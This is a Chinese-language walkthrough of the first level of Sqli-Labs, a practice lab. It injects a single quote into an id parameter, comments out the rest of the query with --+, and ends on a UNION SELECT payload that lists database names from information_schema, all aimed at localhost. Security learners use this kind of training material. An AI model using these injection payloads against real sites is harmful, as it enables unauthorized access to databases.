





# Sqli-Labs

## less-1



题目要求是“请输入ID作为带数值的参数”

目标：向网页传入不正常的id值实现sql注入，拿到数据库的数据

1. 输入正常的ID值

   > http://localhost/sqli-labs/Less-1/?id=4

   

   显示ID值对应的账号和密码

2. 在ID值里加入单引号

   > localhost/sqli-labs/Less-1/?id=4'

   

   这里报错的同时暴露出了部分sql语句

   ```mysql
   '4'' LIMIT 0,1  //没写出来的两个单引号是网页用来引用这个sql语句的
   ```

   可以看到我们输入的参数4’是被两个单引号括起来的，也就是说，这个单引号内就是我们输入的id值，我们可以通过输入特殊的id值改造这个sql语句，其中一件事就是注释掉sql语句的后面的部分

   

3. 开始渗透

   sql语句有两个注释方法

   - 单行注释: --              
   - 多行注释: /* */

   注：--后面必须接个空格，在URL里面+才会被编码为空格，注释语句最终就是 --+

   因此，第二点的语句可以改为

   > localhost/sqli-labs/Less-1/?id=4' --+

   

   看到网页又正常显示了

   到这里我们发现只要在id值后面补个单引号的同时，末尾加上--+就可以随意改造原网页的sql语句了

4. 爆数据库

   ```
   http://localhost/sqli-labs/Less-1/?id=-1'union select 1,group_concat(schema_name),3 from information_schema.schemata--+
   ```

   